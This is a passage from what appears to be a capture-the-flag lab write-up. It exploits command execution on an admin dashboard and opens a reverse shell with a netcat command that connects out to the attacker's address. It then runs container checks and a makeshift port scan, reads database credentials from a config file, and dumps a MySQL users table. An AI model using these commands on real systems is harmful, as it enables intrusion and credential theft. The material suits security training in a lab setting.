 * As we have RCE now, we can use that to get a reverse shell.

* After setting up a listener, we can make use of ```nc``` binary present on the target machine to get reverse shell:

  ```http://admin.holo.live/dashboard.php?cmd=which%20nc```

  ```http://admin.holo.live/dashboard.php?cmd=/bin/nc -c sh 10.50.109.20 4444```

* We can now upgrade this to a fully interactive TTY shell.

## Situational Awareness - 1

```shell
#in reverse shell on L-SRV01
hostname
#random hostname

ls -la /
#includes .dockerenv

cat /proc/1/cgroup
#includes docker in the paths provided

ls -la /var/www
#includes flag

cd /tmp

#create a primitive port scanner
vi port-scan.sh

chmod +x port-scan.sh

./port-scan.sh
#shows open ports

#port 3306 is open
#it could be running mysql

#check for mysql creds
find / -name db_connect.php 2>/dev/null

cat /var/www/admin/db_connect.php
#this contains creds

mysql -u admin -p -h 192.168.100.1
#log into mysql

#in mysql
show databases;

use DashboardDB;

show tables;

select * from users;
#print all columns of table
```

